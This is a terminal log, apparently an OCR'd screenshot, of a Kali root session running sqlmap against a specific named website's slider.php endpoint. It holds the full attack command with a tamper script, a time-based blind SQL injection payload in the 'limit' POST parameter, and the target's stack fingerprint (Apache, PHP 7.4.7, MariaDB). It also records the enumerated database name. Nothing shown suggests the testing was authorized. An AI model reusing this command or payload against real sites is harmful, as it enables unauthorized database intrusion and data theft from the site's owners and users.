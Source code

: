 Usage: python sqlmap [options]

sqlmap: error: --tamper option requires an argument
root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --dbs --no-cast --tamper between.py
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:29:19

[16:29:19] [INFO] loading tamper module 'between'
[16:29:20] [INFO] resuming back-end DBMS 'mysql' 
[16:29:20] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:29:20] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:29:20] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:29:20] [INFO] fetching database names
[16:29:20] [INFO] fetching number of databases
[16:29:20] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[16:29:29] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[16:29:29] [ERROR] unable to retrieve the number of databases
[16:29:29] [INFO] falling back to current database
[16:29:29] [INFO] fetching current database
[16:29:29] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[16:29:41] [INFO] adjusting time delay to 2 seconds due to good response times
qaisare_com
available databases [1]:
[*] qaisare_com
